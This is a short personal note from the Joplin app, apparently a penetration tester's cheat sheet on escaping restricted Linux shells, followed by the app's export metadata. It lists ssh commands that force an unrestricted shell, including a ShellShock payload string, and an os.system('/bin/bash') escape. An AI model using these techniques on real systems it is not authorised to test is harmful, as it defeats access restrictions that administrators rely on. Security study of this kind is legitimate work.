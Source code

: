 Restricted Shells

# SSH

https://0xffsec.com/handbook/shells/restricted-shells/

> ssh user@10.0.0.3 -t "/bin/sh" (For normal)
> 
> ssh user@10.0.0.3 -t "bash --noprofile" (For profile)
> 
> `ssh user@10.0.0.3 -t "(){:;}; /bin/bash"` (For ShellShock cases)

Do the restricted commands to confirm that we break out of restriction

# echo

https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/ 

> echo os.system('/bin/bash')

id: ce1fe66f438e4e008cb92640dd80924f
parent_id: 2deea0a2fd65431c90074dad6a2d5de8
created_time: 2022-04-29T07:14:08.075Z
updated_time: 2022-05-04T16:26:03.535Z
is_conflict: 0
latitude: 1.28795004
longitude: 103.85178375
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-04-29T07:14:08.075Z
user_updated_time: 2022-05-04T16:26:03.535Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1